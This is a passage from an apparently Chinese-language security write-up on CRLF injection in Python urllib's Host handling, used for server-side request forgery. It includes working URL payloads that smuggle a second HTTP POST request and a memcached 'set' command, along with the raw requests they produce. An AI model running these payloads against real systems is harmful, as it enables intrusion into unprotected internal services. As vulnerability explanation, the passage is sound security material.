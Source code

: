 攻击者可以注入一个额外的完整的HTTP请求头

```
http://127.0.0.1%0d%0aConnection%3a%20Keep-Alive%0d%0a%0d%0aPOST%20%2fbar%20HTTP%2f1.1%0d%0aHost%3a%20127.0.0.1%0d%0aContent-Length%3a%2031%0d%0a%0d%0a%7b%22new%22%3a%22json%22%2c%22content%22%3a%22here%22%7d%0d%0a:12345/foo

```

这个的响应是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: Keep-Alive  

POST /bar HTTP/1.1
Host: 127.0.0.1
Content-Length: 31  

{"new":"json","content":"here"}
:12345
Connection: close

```

demo中注入的完整的请求头在Apache HTTPD下是工作的，但是其他的server不一定能正确的解析或者利用。这种攻击可以用在内网攻击上，比如未授权的REST、SOAP或者类似的服务[Exploiting Server Side Request Forgery on a Node/Express Application (hosted on Amazon EC2)](http://sethsec.blogspot.com/2015/12/exploiting-server-side-request-forgery.html)

攻击memcached
-----------

在[memcached文档](https://github.com/memcached/memcached/blob/master/doc/protocol.txt)中，memcached会开放几个简单的网络协议接口供缓存数据读取和存储使用。一般来说，这种mamcached都是部署在应用服务器上，这样多个实例之间共享数据或者进行一些操作就会比较快，不用进行数据库操作了。要注意的是，memcached默认是都没有密码保护的。开发者或者管理员一般也是认为内网的应用是无法被攻击的。

这样，如果我们可以控制内网的Python访问一个URL，然后我们就可以轻松的访问memcached了，比如

```
http://127.0.0.1%0d%0aset%20foo%200%200%205%0d%0aABCDE%0d%0a:11211/foo

```

就会产生下面的HTTP头

```
GET /foo HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
set foo 0 0 5
ABCDE
:11211

```
